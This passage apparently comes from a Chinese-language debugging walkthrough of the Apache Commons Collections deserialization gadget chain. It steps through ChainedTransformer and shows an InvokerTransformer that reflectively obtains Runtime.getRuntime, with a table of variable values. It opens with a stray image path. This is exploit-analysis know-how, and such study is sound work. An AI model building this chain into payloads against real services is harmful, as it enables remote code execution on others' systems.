 ```
    }

    return object;
}
```

把断点打到InvokerTransformer类的transform函数

![-w1680](media/15662017023838/15662833923189.jpg)

程序会进入到`org.apache.commons.collections.functors.ChainedTransformer`的循环中，看下`Transformer[]`中的内容每次执行的结果

第一次循环

```
new InvokerTransformer("getMethod",
    new Class[] { String.class, Class[].class },
    new Object[] { "getRuntime", new Class[0] }),
```


| 变量 | 值 |
| :-- | :-- |
| input | class java.lang.Runtime |
| cls | class java.lang.Class |
| method | public java.lang.reflect.Method java.lang.Class.getMethod(java.lang.String,java.lang.Class[]) |
| return | java.lang.Runtime.getRuntime() **getRuntime方法的Method对象** |
